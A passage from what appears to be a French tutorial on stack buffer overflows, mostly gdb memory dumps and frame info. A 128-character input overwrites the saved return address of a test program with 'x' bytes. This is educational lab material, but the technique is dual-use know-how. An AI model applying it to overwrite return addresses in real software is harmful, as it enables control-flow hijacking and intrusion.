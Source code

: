 ```
0x7fffffffe238:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe240:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe248:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe250:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe258:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe260:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe268:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe270:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe278:	0x00	0x51	0x55	0x55	0x55	0x55	0x00	0x00
0x7fffffffe280:	0xf8	0xe3	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe288:	0x00	0x00	0x00	0x00	0x02	0x00	0x00	0x00
(gdb) i f
Stack level 0, frame at 0x7fffffffe280:
 rip = 0x555555555164 in maFonction (bo_2.c:8); saved rip = 0x555555555100
 called by frame at 0x7fffffffe288
 source language c.
 Arglist at 0x7fffffffe270, args: valeur=0x7fffffffe685 'x' <repeats 120 times>
 Locals at 0x7fffffffe270, Previous frame's sp is 0x7fffffffe280
 Saved registers:
  rbp at 0x7fffffffe270, rip at 0x7fffffffe278
```

Les adresses sont différentes mais la logique demeure la même: ici l’adresse de retour est 0x555555555100 et elle se trouve à 0x7fffffffe278, et on constate que notre séquence de "x" se termine tout juste avant – un "x" de plus et on commence à empiéter sur l’adresse de retour. Pour la remplacer en entier par des "x", il faut que la séquence de "x" passée au programme ait la taille de 128:

```
(gdb) run $(python -c 'print("x" * 128)')
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/kali/bo_2 $(python -c 'print("x" * 128)')

Breakpoint 10, maFonction (valeur=0x7fffffffe67d 'x' <repeats 128 times>) at bo_2.c:8
8	}
(gdb) x/144bx buffer
0x7fffffffe1f0:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe1f8:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe200:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe208:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe210:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe218:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe220:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe228:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe230:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe238:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe240:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe248:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe250:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe258:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe260:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe268:	0x78	0x78	0x78	0x78	0x78	0x78	0x78	0x78
0x7fffffffe270:	0x00	0xe3	0xff	0xff	0xff	0x7f	0x00	0x00
0x7fffffffe278:	0x00	0x00	0x00	0x00	0x02	0x00	0x00	0x00
(gdb) i f
Stack level 0, frame at 0x7fffffffe270:
 rip = 0x555555555164 in maFonction (bo_2.c:8); saved rip = 0x7878787878787878
 called by frame at 0x7fffffffe278
 source language c.
 Arglist at 0x7fffffffe260, args: valeur=0x7fffffffe67d 'x' <repeats 128 times>
 Locals at 0x7fffffffe260, Previous frame's sp is 0x7fffffffe270
 Saved registers:
  rbp at 0x7fffffffe260, rip at 0x7fffffffe268
```
